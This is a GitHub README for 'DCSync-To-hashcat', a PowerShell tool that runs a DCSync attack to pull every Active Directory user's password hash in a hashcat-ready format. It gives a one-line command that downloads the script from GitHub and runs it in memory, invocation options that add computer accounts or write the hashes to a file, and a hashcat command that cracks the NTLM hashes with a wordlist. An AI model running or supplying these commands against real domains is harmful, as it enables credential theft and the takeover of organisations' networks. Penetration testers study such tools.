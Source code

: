# DCSync-To-hashcat
Performs DCSync and extracts all user accounts hashes in a hashcat friendly format

### Load into memory:
```
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/The-Viper-One/DCSync-To-Hashcat/main/DCSync-To-Hashcat.ps1)
```
### Commands:
```
Invoke-DCSyncTH                          # Run with default options
Invoke-DCSyncTH -ComputerHashes -Y       # Include computer accounts
Invoke-DCSyncTH -OutputToFile -Y         # Output hashes to file. Defaults to $HOME\Hashcat_Final.txt
```
### Sample Output
![image](https://user-images.githubusercontent.com/68926315/226433487-431a26e1-9b8a-46b6-af31-ea879b8bca6b.png)

### hashcat cracking
The results can be copied over to file and run againt Hashcat
```
hashcat -a 0 -m 1000 hashes.txt -O Wordlists/rockyou2021.txt -r Rules/best64.rule
```
